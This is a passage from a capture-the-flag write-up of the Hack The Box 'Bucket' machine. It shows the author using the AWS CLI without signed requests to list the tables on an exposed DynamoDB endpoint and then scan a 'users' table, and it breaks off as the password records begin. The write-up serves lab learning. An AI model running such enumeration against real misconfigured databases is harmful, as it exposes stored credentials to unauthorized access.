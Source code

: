 There was a tutorial mode that I tried to follow along with, but the web console did not seem to work. I tried installing and using the AWS CLI instead.

![It may actually be possible to do this in the web shell](/assets/markups/bucket-shell2.svg)

```
┌──(zweilos㉿kali)-[~/htb/reel2]
└─$ aws dynamodb list-tables --endpoint-url http://s3.bucket.htb/shell/ --no-paginate --no-sign-request 
You must specify a region. You can also configure your region by running "aws configure".
                           
┌──(zweilos㉿kali)-[~/htb/reel2]
└─$ aws dynamodb list-tables --endpoint-url http://s3.bucket.htb/shell/ --no-paginate --no-sign-request --region
To see help text, you can run:

  aws help
  aws <command> help
  aws <command> <subcommand> help

usage: aws [options] <command> <subcommand> [<subcommand> ...] [parameters]
aws: error: argument --region: expected one argument
                                                                                                       
┌──(zweilos㉿kali)-[~/htb/reel2]
└─$ aws dynamodb list-tables --endpoint-url http://s3.bucket.htb/shell/ --no-paginate --no-sign-request --region bucket
{
    "TableNames": [
        "Image",
        "Tag",
        "users"
    ]
}
```

It took a bit more reading to figure out how to use the CLI with dynamodb, and how to connect to the remote endpoint.  After getting all of the options correctly set, I found that there were three tables in the database.  Two of them I had created by playing around with the tutorial, but the third `users` database was already there.

```
┌──(zweilos㉿kali)-[~/htb/reel2]
└─$ aws dynamodb scan users --endpoint-url http://s3.bucket.htb/shell/ --no-paginate --no-sign-request --region bucket
To see help text, you can run:

  aws help
  aws <command> help
  aws <command> <subcommand> help

usage: aws [options] <command> <subcommand> [<subcommand> ...] [parameters]
aws: error: the following arguments are required: --table-name
                                                                                                       
┌──(zweilos㉿kali)-[~/htb/reel2]
└─$ aws dynamodb scan --table-name users --endpoint-url http://s3.bucket.htb/shell/ --no-paginate --no-sign-request --region bucket
{
    "Items": [
        {
            "password": {
```
